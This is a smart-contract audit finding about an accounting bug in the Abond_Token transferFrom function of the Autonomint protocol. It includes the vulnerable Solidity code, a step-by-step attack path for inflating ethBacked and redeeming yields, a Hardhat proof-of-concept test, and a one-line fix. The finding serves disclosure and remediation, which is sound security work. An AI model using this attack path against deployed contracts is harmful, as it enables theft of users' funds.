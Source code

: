 Dry Brown Cheetah

High

# Accounting error in `Abond_Token::transferFrom` leads to broken functionality and loss of funds

### Summary

The [`Abond_Token`](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Token/Abond_Token.sol) contract uses a `userStates` mapping which maintains the credit and debit state of users.
```solidity
struct State {
    uint256 cumulativeRate;
    uint128 ethBacked;
    uint128 aBondBalance;
}
```
However, the [`Abond_Token::transferFrom`](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Token/Abond_Token.sol#L147) has an accounting error where it incorrectly assigns the `from` address's state to `msg.sender`.
```solidity
    function transferFrom(
        address from,
        address to,
        uint256 value
    ) public override returns (bool) {
        // check the input params are non zero
        require(from != address(0) && to != address(0), "Invalid User");

        // get the sender and receiver state
        State memory fromState = userStates[from];
        State memory toState = userStates[to];

        // update receiver state
        toState = Colors._credit(fromState, toState, uint128(value));
        userStates[to] = toState;

        // update sender state
        fromState = Colors._debit(fromState, uint128(value));
        userStates[msg.sender] = fromState;     <@ - // Should have been `userStates[from] = fromState`

        // transfer abond
        super.transferFrom(from, to, value);
        return true;
    }
```
This leads to broken functionality across contracts where `userStates` is accessed directly / indirectly, as well as lead to loss of funds as the state acquired by `msg.sender` and state retained by `from` address can be used to sabotage the user funds by using the [`borrowing::redeemYields`](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Core_logic/borrowing.sol#L318) function.

### Root Cause

In [`Abond_Token.sol:165`](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Token/Abond_Token.sol#L165), there is an accounting error where `msg.sender` is assigned the `fromState` instead of `from` address being assigned the same.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. User1 acquires Abond token via `borrowing::withDraw` or simply someone else transfers via the `Abond_Token::transfer` function.
2. User1 approves User2 to spend the tokens.
3. User2 uses the `Abond_Token::transferFrom` function to transfer tokens to some other address of his own.
4. User2 has now acquired what the acutal `Abond_Token::userStates` of User1 should have been in an ideal scenario and User1's state is unhinged.
5. Now, User2 can ask someone or just use some other address of his own whose Abond tokens have a lower `ethBacked` to transfer tokens to himself using `Abond_token::transfer`.
6. This would inflate the total `ethBacked` of User2 due to the accounting error and now User2 can call the `borrow::redeemYields` to redeem Abonds at a much higher rate.

### Impact

1. Broken functionalities across contracts wherever `userStates` is being used be it directly or indirectly.
2. Loss of funds by inflating the `ethBacked` and redeeming yields at a higher rate.
3. The user who approved a spender will retain state even if all tokens were transferred by the spender, this would allow hoarding of `ethBacked` and incorrect cumulative rates.

### PoC

Add the following test case inside the `BorrowingTest.ts` file:
```typescript
    describe("Testing Abond Functions", async () => {

        it("Should incorrectly update the userStates variable", async () => {
            const {BorrowingContractA,TokenA,globalVariablesA,usdtA,CDSContractA} = await loadFixture(deployer);
            const timeStamp = await time.latest();
            await usdtA.connect(user1).mint(user1.getAddress(),10000000000)
            await usdtA.connect(user1).approve(CDSContractA.getAddress(),10000000000);
        
            const options = Options.newOptions().addExecutorLzReceiveOption(400000, 0).toHex().toString()
            let nativeFee = 0
            ;[nativeFee] = await globalVariablesA.quote(1,0, options, false)
            await CDSContractA.connect(user1).deposit(10000000000,0,true,10000000000,100000, { value: nativeFee.toString()});
        
            const depositAmount = ethers.parseEther("1");
        
            await BorrowingContractA.connect(user1).depositTokens(
                100000,
                timeStamp,
                [2,
                110000,
                ethVolatility,1,
                depositAmount],
                {value: (depositAmount +  BigInt(nativeFee))})
        
            await BorrowingContractA.calculateCumulativeRate();
            await TokenA.mint(user1.getAddress(),80000000);
            await TokenA.connect(user1).approve(await BorrowingContractA.getAddress(),await TokenA.balanceOf(user1.getAddress()));
            const {odosData, odosSignData} = await calculateUpsideToSwap(
                (await treasuryA.getBorrowing(await user1.getAddress(), 1))[1],
                99900,
                1e18,
                ZeroAddress,
                await treasuryA.getAddress(),
                await BorrowingContractA.getAddress()
            )
            await BorrowingContractA.connect(user1).withDraw(
                await user1.getAddress(), 
                1,
                odosData,
                odosSignData,
                99900,
                timeStamp,
                {value: nativeFee});
            
            let userState1 = await abondTokenA.userStates(await user1.getAddress());
            console.log("userState1", userState1);
            // userState1 Result(3) [
            //     1000000000000000000000000000n,
            //     5005005005005005n,
            //     99900000000000000000n
            //   ]
        
            // Give approval to user3 to transfer all abond tokens
            await abondTokenA.connect(user1).approve(
                await user3.getAddress(), 
                await abondTokenA.balanceOf(await user1.getAddress())
            )
        
            // Transfer half tokens to some other user (for example owner3)
            await abondTokenA.connect(user3).transferFrom(
                await user1.getAddress(), 
                await owner.getAddress(), 
                await abondTokenA.balanceOf(await user1.getAddress()) / 2n
            )
        
            // Even though user3 has no abond tokens before, after transfer, user3 has the updated state whereas user1 state remains the same
            const userState3 = await abondTokenA.userStates(await user3.getAddress());
            console.log("userState3", userState3);
            // userState3 Result(3) [
            //     1000000000000000000000000000n,
            //     5005005005005005n,
            //     49950000000000000000n
            //   ]
            
            // Now, if someone with a lower eth backed abond token transfers to user3 (using simple transfer), he can redeem their abond higher rate using redeemYield function.
        });

    });
```

### Mitigation

It is recommended to fix the accounting error at [`Abond_Token.sol:165`](https://github.com/sherlock-audit/2024-11-autonomint/blob/0d324e04d4c0ca306e1ae4d4c65f0cb9d681751b/Blockchain/Blockchian/contracts/Token/Abond_Token.sol#L165):
```diff
-        userStates[msg.sender] = fromState;
+        userStates[from] = fromState;
```
